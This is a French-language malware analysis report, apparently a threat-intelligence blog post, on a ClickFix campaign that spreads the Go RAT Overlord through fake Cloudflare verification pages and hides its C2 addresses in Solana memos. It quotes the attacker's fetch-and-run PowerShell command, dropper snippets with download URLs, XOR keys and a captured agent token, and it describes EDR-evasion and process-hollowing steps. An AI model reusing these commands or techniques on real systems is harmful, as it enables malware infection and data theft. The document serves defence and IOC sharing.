




// ClickFix - RAT Go - DDR Solana - 2026-06-04
RAT - Overlord
Hashes et identifiants principaux
- SHA256 : 556d7e26039a275f61e29165700b53574f04ca451db415d8c2b5ec1533d2094d
- MD5 : b1a4d2caee92e6c8a888d77821ebd6a9
- SHA1 : 2ada87f6fb62025d91db45562af8e3ad6be7ba01
- C2 principal : cloud-flare-authenticator[.]link / 193.111.117[.]6
- C2 production pannel : download-windows-update[.]live / 151.243.113.94:5173
1. Résumé
Campagne ClickFix active depuis au moins le 01 mai 2026, ciblant Windows, macOS, Linux et Android via 35 sites légitimes compromis. Le vecteur initial est une fausse page de vérification Cloudflare injectée dans des sites WordPress, qui pousse les victimes à exécuter une commande PowerShell copié dans leur presse-papier.
La chaîne déploie en quatre étapes un outil d'administration à distance sophistiqué nommé Overlord,
écrit en Go et disponible publiquement sur GitHub (vxaboveground/Overlord). Ce RAT communique via
WebSocket chiffré (WSS) et résout ses adresses C2 dynamiquement depuis des
mémos de transactions Solana chiffrés, technique dite de Dead Drop Resolver (DDR)
par
chaîne de blocs qui rend le blocage quasi-impossible.
Points clés
16 victimes confirmées infectées au moment de l'analyse. Le C2 exposait ses données de victimes sans authentification via une API non protégée, permettant d'observer l'infrastructure en temps réel.
Le serveur Apache de distribution avait le listage de répertoire activé, exposant
l'intégralité de l'infrastructure ainsi qu'une base de données victimes en clair (db.json).
2. Infrastructure C2 - OpenDir
Le serveur Apache 193.111.117[.]6 (Ubuntu, Apache/2.4.58) avait le listage de répertoire activé,
exposant l'ensemble de l'infrastructure de distribution.

| Fichier / Dossier | Taille | Contenu |
|---|---|---|
verified.ps1 |
11 Ko | Dropper Windows (XOR obfusqué) |
iDXs9HOIpoTLZRE.zip |
16 Mo | Archive étape 3 (mdp: iDXs9HOIpoTLZRE) |
protect.ps1 |
2 Ko | Téléchargeur MSI (XOR obfusqué) |
macos-confirm |
92 o | Script bash macOS |
linux-confirm |
95 o | Script bash Linux |
linuxuser |
7,5 Mo | Charge ELF Linux |
db.json |
40 Ko | Base de données victimes en clair |
redirects.json |
79 Ko | Robots filtrés (230 entrées) |
cpt-win/verify.html |
Page ClickFix Windows | |
cpt-linux/verify.html |
Page ClickFix Linux | |
admin/xxxcapadmin.php |
Pannel admin PHP |
Points d'accès API non authentifiés
| Adresse | Données exposées |
|---|---|
GET /db.json |
132+ entrées victimes (IP, pays, OS, horodatage, domaine) |
GET /redirects.json |
230 entrées robots filtrés |
GET /admin/xxxcapadmin.php?api=stats |
Toutes les victimes en temps réel |
GET /admin/xxxcapadmin.php?api=domains |
Statistiques par domaine compromis |
3. Chaîne d'infection complète
L'attaque repose sur la technique ClickFix : une fausse page de vérification Cloudflare injectée dans des sites WordPress compromis pousse la victime à exécuter manuellement une commande PowerShell copié dans son presse-papier. La chaîne complète se déroule en quatre étapes.
↓
[Superposition ClickFix : fausse vérification Cloudflare]
→ copie dans le presse-papier via navigator.clipboard.writeText()
↓
[La victime exécute manuellement la commande]
→ powershell "irm https://cloud-flare-authenticator[.]link/verified[.]ps1|iex"
ÉTAPE 1 : verified.ps1 (XOR, clé : 7GR#f#p7)
→ télécharge iDXs9HOIpoTLZRE.zip (C2 + IP de secours)
→ extrait avec 7-Zip/WinRAR le mot de passe est le nom du zip
→ copie dans %LOCALAPPDATA%\cert_update\
→ 4 mécanismes de persistance : registre Run, lien .lnk Démarrage, PATH, tâche planifiée
ÉTAPE 2 : protect.ps1 (XOR, clé : Ln!FFxps)
→ télécharge updater.msi depuis des sites compromis
→ installation silencieuse : msiexec /i /qn /norestart
ÉTAPE 3 : CryptF Launcher (iDXs9HOIpoTLZRE.exe, PE32+)
→ lit la charge chiffrée AES-CBC depuis son propre overlay
→ appels système directs NT (contournement EDR) : NtAllocateVirtualMemory...
→ vidage de processus (HollowProcess)
ÉTAPE 4 : Overlord Agent (RAT Go)
→ connexion C2 via WebSocket chiffré (wss://)
→ URL C2 résolue depuis la chaîne de blocs Solana (DDR)
→ HVNC, enregistreur de frappe, webcam, audio, shell, fichiers...
4. Étape 1 : verified.ps1 (Dropper)
Le script verified.ps1 est le premier exécuté par la victime. Son contenu est obfusqué par un
XOR octet par octet avec la clé 7GR#f#p7 (rotation), encodé en hexadécimal. Une fois décodé,
le script télécharge l'archive contenant le lanceur CryptF.
$urls = @( "https://cloud-flare-authenticator[.]link/iDXs9HOIpoTLZRE.zip", "http://193.111.117[.]6/iDXs9HOIpoTLZRE.zip" ) $pw = 'iDXs9HOIpoTLZRE' $dir = "$env:LOCALAPPDATA\cert_update"
Points notables
| Mécanisme | Détail |
|---|---|
| IP de secours | Si le domaine C2 est bloqué, retente avec l'IP directe |
| Anti-bac-à-sable | Détecte 7-Zip / WinRAR : sans archiveur, la décompression échoue |
| Suppression du marquage | Unblock-File retire le drapeau Mark-of-the-Web |
| Persistance (×4) | Clé de registre Run, lien .lnk dans Démarrage, variable PATH, tâche planifiée |
| Exécution furtive | WindowStyle Hidden sur tous les processus enfants |
5. Étape 2 : protect.ps1 (Téléchargeur MSI)
Obfusqué par XOR avec la clé Ln!FFxps, ce script télécharge et installe silencieusement un
fichier MSI hébergé sur deux sites WordPress compromis distincts, séparés du C2 principal.
$urls = @( "https://citychoicepharmacy[.]co.uk/wp-content/uploads/2026/05/updater.msi", "https://delta.alhijratravel[.]nl/updater.msi" ) # Installation silencieuse : msiexec /i /qn /norestart # Nom local : cloud-utils.msi dans %TEMP%
L'utilisation de sites compromis tiers pour héberger le MSI complique le blocage : il faudrait signaler chaque site hôte individuellement, indépendamment du C2.
6. Étape 3 : CryptF Launcher
Métadonnées PE
| Propriété | Valeur |
|---|---|
| SHA256 | 556d7e26039a275f61e29165700b53574f04ca451db415d8c2b5ec1533d2094d |
| MD5 | b1a4d2caee92e6c8a888d77821ebd6a9 |
| Architecture | x64 (PE32+) |
| Compilateur | MSVC Visual Studio 2019 (en-tête Rich) |
| Date de compilation | 2026-06-01 13:25:35 UTC |
| Taille | 21 Mo |
| Sections disque | 12 sections, noms obfusqués |
| Sections mémoire | 11 sections standards après déchiffrement |
Structure de l'overlay (20,65 Mo)
[Stub PE : 147 Ko ] [Code obfusqué : 10 Mo ] [Charge AES-CBC : 10,65 Mo ] [Pied de page CRPF : 12 o ]
Nom interne retrouvé
=== CryptF Launcher Start === C:\Users\Administrator\Desktop\cryptf_debug.log
Des chaînes de débogage non supprimées trahissent le nom interne du projet : CryptF Launcher. Le chemin absolu du fichier journal confirme que le binaire a été compilé sur la machine de développement de l'opérateur.
Capacités techniques
| Technique | Détail |
|---|---|
| Anti-débogage | IsDebuggerPresent + CheckRemoteDebuggerPresent |
| Anti-virtualisation | Détection QEMU + chaîne "virtual" (VMware/VirtualBox) |
| Appels système directs | NtAllocateVirtualMemory, NtWriteVirtualMemory,
NtUnmapViewOfSection, NtProtectVirtualMemory, NtGetContextThread,
NtSetContextThread, NtResumeThread, NtTerminateProcess
|
| Dump de processus | HollowProcess() : injecte Overlord dans un processus cible |
| Chiffrement | AES-CBC (BCrypt API + OpenSSL embarqué) |
| Empreinte matérielle | SetupDiGetDeviceRegistryPropertyW + Direct3DCreate9 |
| Persistance | %LOCALAPPDATA%\<nom>.exe + HKCU\...\Run |
| Élévation de droits | AdjustTokenPrivileges + OpenProcessToken |
Virustotal
| Champ | Valeur |
|---|---|
| Score | 26 / 62 - Rapport VT |
| Dernière analyse | 2026-06-04 |
| Premier dépôt | 2026-06-02 |
| Compilation | 2026-06-01 13:25:35 UTC |
| Noms soumis | iDXs9HOIpoTLZRE.exe,
556d7e26039a275f61e29165700b53574f04ca451db415d8c2b5ec1533d2094d.exe,
program.exe |
| Imphash | 0c650e3e85b88377e6a4343076d8dab0 |
| Détections | Trojan |
7. Étape 4 : Overlord RAT (Go)
L'agent final est Overlord, un outil d'administration à distance open source écrit en Go,
publiquement accessible sur GitHub (vxaboveground/Overlord).
Le dépôt était actif avec des validations datant de moins de six heures au moment de l'analyse.
Un canal de support Telegram est egalement mis en avant : t[.]me/WindowsBatch.
Architecture C2 via DDR Solana
│
├─ 1. Lit OVERLORD_SOL_ADDRESS (portefeuille Solana)
├─ 2. getSignaturesForAddress (RPC Solana mainnet)
├─ 3. getMemoFromTransaction → decryptMemo → URL C2
│ (URL chiffrée stockée dans le mémo de la transaction Solana)
├─ 4. Connexion WSS avec TLS mutuel (cert/clé client)
└─ 5. Basculement automatique (config/server_index.json)
Cette technique rend le blocage de l'infrastructure C2 particulièrement difficile : les URL de commande sont stockées dans des mémos de transactions sur la chaîne de blocs Solana publique. Bloquer le RPC Solana bloquerait également des milliers d'applications légitimes.
Modules et capacités
| Module | Capacité |
|---|---|
capture/hvnc |
HVNC: flux H.264 via DXGI |
capture/backstage |
DLL injectée dans le processus GPU de Chrome (--no-sandbox |
keylogger |
keylogger + suivi de la fenêtre active |
audio |
Capture audio/voix |
Webcam |
Flux H.264 via Windows Media Foundation |
handlers |
Envoi/réception de fichiers, console shell, captures d'écran |
activewindow |
Synchronisation du presse-papier + surveillance par mots-clés |
sysinfo |
CPU, GPU, RAM, empreinte matérielle, nom d'utilisateur, architecture |
filesearch |
Recherche de fichiers |
Protocole |
msgpack binaire sur WebSocket, identité par signature ed25519 |
Le constructeur peut compiler les agents avec WebRTC (Pion) pour le flux en peer to peer ou via MediaMTX WHIP/WHEP, permettant une latence minimale pour le bureau caché HVNC.
8. Détonation live et C2 de production
La charge a été détonée dans un environnement isolé (FlareVM sous Docker avec /dev/kvm et
GPU Intel physique exposé au conteneur). La vérification anti-virtualisation a été contournée grâce
au GPU physique réel. L'outil hollows_hunter a extrait le processus creux (PID 560) :
140000000.exe (44,5 Mo, réaligné).
La capture réseau Wireshark et l'analyse Any.run ont révélé le vrai C2 de production :
| Propriété | Valeur |
|---|---|
| Domaine | download-windows-update[.]live (usurpation de Windows Update) |
| IP | 151.243.113.94 |
| Port | 5173 (port par défaut du pannel Overlord) |
| Hébergeur | AS207043 DEDIK SERVICES LIMITED, Francfort (hébergeur résistant aux signalements) |
| Certificat | Auto-signé, O=Overlord, créé le 16 avril 2026 |
| Infrastructure | Docker (IP interne 172.18.0.2 dans le certificat) |
| Version Overlord | 2.3.1 (via /api/version sans authentification) |
| RPC Solana | polygon.drpc.org avec camouflage Origin: egygulfgroup[.]com |

Requêtes vers le serveur C2 extraites via un proxy.
9. Interception réseau (MITM)
Tentative d'interception via mitmproxy transparent sur FlareVM afin de capturer la clé privée ed25519 de l'agent, l'adresse de portefeuille Solana et les messages WebSocket en clair.
Protocole WebSocket capturé
| Paramètre | Valeur |
|---|---|
| Chemin | /api/clients/{HWID}/stream/ws?role=client |
| HWID capturé | d0ddc77f7759194ab7186c5d3bd1a72ff2f93e5530000efe242ad26a580278b2 |
| Token capturé | e*ysV6hQ@E%pLHH#Ri$REC3$gxEKDA4@fXxN8KqqCV1YzwcXSxf%xej$sNjQoICg |
| Format messages | msgpack binaire |
Protocole d'enrôlement ed25519
Après la montée en WebSocket (HTTP 101), le C2 envoie immédiatement un défi ed25519 :
La clé privée ed25519 est compilée dans le binaire, obfusquée par garble. Elle n'est déchiffrée qu'au moment de l'exécution, dans le tas du processus. Elle n'est pas présente dans le binaire statique ni dans le dump mémoire de l'outil hollows_hunter.
Clé de déchiffrement Solana DDR
SHA-256(agent_token) = fdc10789f05361b7d826956f8ea2bed75a9a586890c007b144c453cbfee8fdc6Cette clé AES-256-GCM déchiffre les mémos Solana du portefeuille de l'agent, lesquels contiennent les URL C2 de production.
Résultat et obstacles
L'interception transparente via mitmproxy a bien capturé les en-têtes et le token, mais la connexion redirigée
vers
151.243.113.94:5173 retourne systématiquement HTTP 403. Cause probable :
l'IP de FlareVM a été mise sur liste noire par le C2 après plusieurs centaines de reconnexions automatiques
de l'agent. Les tests depuis une adresse IP différente obtiennent HTTP 101 avec les mêmes paramètres.
10. Analyses sandbox
Tria.ge
| Résultat | Valeur |
|---|---|
| Réseau | 0 connexions : bac à sable détecté |
| Persistance | HKCU\...\Run\iDXs9HOIpoTLZRE confirmé |
| WriteProcessMemory | 64 occurrences : injection confirmée |
| SetThreadContext | 2 occurrences |
| Anti-bac-à-sable | Vérification registre SCSI + informations CPU |
| Score de risque | 7/10 |
Le lanceur CryptF (étape 3) s'est exécuté normalement et a injecté l'agent Overlord (étape 4) par dump de processus. L'agent Overlord a ensuite détecté la virtualisation et n'a pas initié la connexion C2.
Rapport Tria.ge →11. Analyse mémoire (dump)
Structure en mémoire vs. sur disque
| Aspect | Sur disque | En mémoire |
|---|---|---|
| Sections | 12, noms obfusqués (.14m9...) |
11, noms standards (.text, .data...) |
.text |
5,6 Mo (code Overlord déchiffré) | |
.rdata |
4,5 Mo (chaînes, imports) | |
.bss |
32 Mo (données d'exécution Overlord) |
Le lanceur se déchiffre lui-même en mémoire : les sections obfusquées sur le disque deviennent les sections Go standards une fois en mémoire.
Chaînes extraites du segment .rdata
overlord-client/cmd/agent/capture/hvnc overlord-client/cmd/agent/capture/backstage overlord-client/cmd/agent/keylogger overlord-client/cmd/agent/audio overlord-client/cmd/agent/handlers overlord-client/cmd/agent/activewindow wss://127.0.0.1:5173 OVERLORD_SOL_ADDRESS OVERLORD_AGENT_TOKEN OVERLORD_SERVER_SOL LoadServerURLsFromSolana getMemoFromTransaction decryptMemo "hvnc inject: DLL injected into PID %d" "hvnc inject: BackstageCapture DLL injected into GPU PID %d --no-sandbox" "x264 - core ... H.264/MPEG-4 AVC codec" "Failover enabled with %d servers" "Global\Overlord-create m" "SeDebugPrivilege" msgpack:"hwid" msgpack:"username" msgpack:"cpu" msgpack:"gpu"

Chaînes caractéristiques d'Overlord extraites du segment .rdata du dump mémoire.
12. Sites compromis et victimes
Données extraites de db.json et de l'API ?api=stats, instantané du 4 juin 2026.
| Mesure | Valeur |
|---|---|
| Vues totales | 97 |
| Clics | 25 |
| Infections confirmées | 16 |
| Taux vue / infection | environ 16 % |
| OS | Windows 62, macOS 35, Android 23, Linux 14 |
| Pays (5 premiers) | États-Unis 38, France 14, Allemagne 12, Viêt Nam 9, Inde 6 |

Fausse page de vérification Cloudflare affichée aux victimes.
13. IOCs complets
Réseau
- C2 distribution : cloud-flare-authenticator[.]link
- IP C2 distribution : 193.111.117[.]6 (Apache/2.4.58 Ubuntu)
- C2 production Overlord : download-windows-update[.]live
- IP C2 production : 151.243.113.94 (AS207043 DEDIK Frankfurt)
- RPC Solana DDR : polygon.drpc.org (Origin camouflé : egygulfgroup[.]com)
- Hébergeur MSI compromis : citychoicepharmacy[.]co.uk
- Hébergeur MSI compromis : delta.alhijratravel[.]nl
URLs
- https://cloud-flare-authenticator[.]link/verified.ps1
- https://cloud-flare-authenticator[.]link/iDXs9HOIpoTLZRE.zip
- https://cloud-flare-authenticator[.]link/protect.ps1
- http://193.111.117[.]6/iDXs9HOIpoTLZRE.zip
- https://citychoicepharmacy.co.uk/wp-content/uploads/2026/05/updater.msi
- https://delta.alhijratravel.nl/updater.msi
Hashes (CryptF Launcher)
- SHA256 : 556d7e26039a275f61e29165700b53574f04ca451db415d8c2b5ec1533d2094d
- MD5 : b1a4d2caee92e6c8a888d77821ebd6a9
- SHA1 : 2ada87f6fb62025d91db45562af8e3ad6be7ba01
Fichiers système
- %LOCALAPPDATA%\cert_update\iDXs9HOIpoTLZRE.exe
- %TEMP%\iDXs9HOIpoTLZRE.zip
- %TEMP%\cloud-utils.msi
- %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\<nom>.lnk
Registre
- HKCU\Software\Microsoft\Windows\CurrentVersion\Run\SysHostService
- HKCU\Software\Microsoft\Windows\CurrentVersion\Run\WinLogonHelper
- HKCU\Software\Microsoft\Windows\CurrentVersion\Run\RuntimeBrokerSvc
- HKCU\Software\Microsoft\Windows\CurrentVersion\Run\SpoolerSubService
Clés de déchiffrement
- verified.ps1 XOR : 7GR#f#p7
- protect.ps1 XOR : Ln!FFxps
- Archive ZIP : iDXs9HOIpoTLZRE
- Clé DDR Solana (AES-256-GCM) : SHA-256(agent_token)
Outils utilisés
Ghidra (décompilation, analyse statique), strings, Wireshark, hollows_hunter, mitmproxy, FlareVM (Docker + kvm), Any.run, Tria.ge, DetectItEasy, Python (analyse du dump mémoire).